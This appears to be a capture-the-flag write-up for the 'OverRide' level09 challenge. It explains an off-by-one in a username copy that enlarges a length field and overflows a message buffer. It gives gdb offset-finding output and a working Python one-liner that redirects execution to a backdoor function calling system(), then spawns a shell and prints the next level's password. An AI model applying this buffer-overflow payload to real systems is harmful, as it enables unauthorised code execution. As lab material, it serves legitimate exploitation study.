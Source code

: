 
When executing this program, we are prompted to enter a username and then a message

```
level09@OverRide:~$ ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: xavier
>: Welcome, xavier
>: Msg @Unix-Dude
>>: hola
>: Msg sent!
```

By observing the code, we can see a function called secret_backdoor that is not called. This function allows us to execute whatever we want using the system() function.

```c
long long secret_backdoor()
{
    char v0;  // [bp-0x88]

    fgets(&v0, 128, stdin);
    return system(&v0);
}
```

So, we can deduce that we will need to modify the execution flow by modifying the RIP register at a certain point.

We can see that the program uses a message struct which stores the username, the message, and the message size.

```c
struct	s_message
{
	char	message[140];
	char	username[40];
	int		len;
}   t_message;
```

We can also see that in the set_username function, during the loop which writes the user's name into the struct, instead of looping 40 times, we will loop 41 times due to the <= 40 condition.

```c
for (v2 = 0; v2 <= 40 && (&v1)[v2]; v2 += 1)
    {
        a0->username[v2] = (&v1)[v2];
    }
```

This will allow us to overflow the len attribute of our struct and write the first high bit of this latter.
This vulnerability will allow us to overflow in set_msg at the level of strncpy which will write to a0->len of the message that we will write using fgets into a0->message.

```c
fgets(&v1, 0x400, stdin);
strncpy(a0->message, &v1, a0->len);
```

This means that we know what our payload will look like.

```
(python -c 'print("a"*40 + "\xff" + "\n" + "a" * OFFSET + "secret_backdoor") + "\n" + "/bin/sh"'; cat) | ./level09
```


To find the offset, we use a pattern generator. https://wiremask.eu/tools/buffer-overflow-pattern-generator/?
```
(gdb) run < <(python -c 'print("a"*40 + "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag<span style="color:red">6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4</span>Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9")')

--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
(gdb) x/s $rsp
0x7fffffffe5d8:  "6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4"
```
<font color="red">6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4</font> We can see that this string starts from 200 of the pattern.

offset = 200


Now let's find the address of secret_backdoor.
```
(gdb) print secret_backdoor
$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```
secret_backdoor = 0x55555555488c

(python -c 'print("a"*40 + "\xff" + "\n" + "a" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00") + "\n" + "/bin/sh"'; cat) | ./level09

```
level09@OverRide:~$ (python -c 'print("a"*40 + "\xff" + "\n" + "a" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00") + "\n" + "/bin/sh"'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
